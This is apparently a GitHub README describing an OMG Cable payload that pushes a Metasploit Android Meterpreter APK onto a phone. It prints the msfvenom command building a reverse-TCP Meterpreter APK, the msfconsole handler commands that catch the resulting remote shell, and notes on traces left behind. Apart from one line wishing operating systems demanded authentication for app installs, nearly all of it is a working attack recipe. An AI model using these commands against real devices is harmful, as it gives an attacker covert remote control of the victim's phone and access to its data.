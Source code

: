 # Android Meterpreter

An OMG Cable payload which downloads and installs an APK onto an Android device. Here are the high-level notes.

I would like to see operating systems prompt for authentication when performing risky behaviors, such as installing a new app.

## Generate Payload

Regular `msfvenom` payload generation.

```D
$ msfvenom -p android/meterpreter_reverse_tcp LHOST=x.x.x.x LPORT=5555 -o /data/omg.apk
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
No encoder specified, outputting raw payload
Payload size: 79592 bytes
Saved as: /data/omg.apk
```

## Handler

These instructions can also be saved and loaded as an `rc` file via `msfconsole -r`.

```
$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload android/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set lport 5555
msf6 exploit(multi/handler) > set lhost eth0
msf6 exploit(multi/handler) > run
```

## Miscellaneous

Some apparent artifacts remain. This is an abbreviated list.

* Notification shows apk was downloaded
* APK remains installed as MainActivity
  * `app_uninstall com.metasploit.stage` does not remove the apk
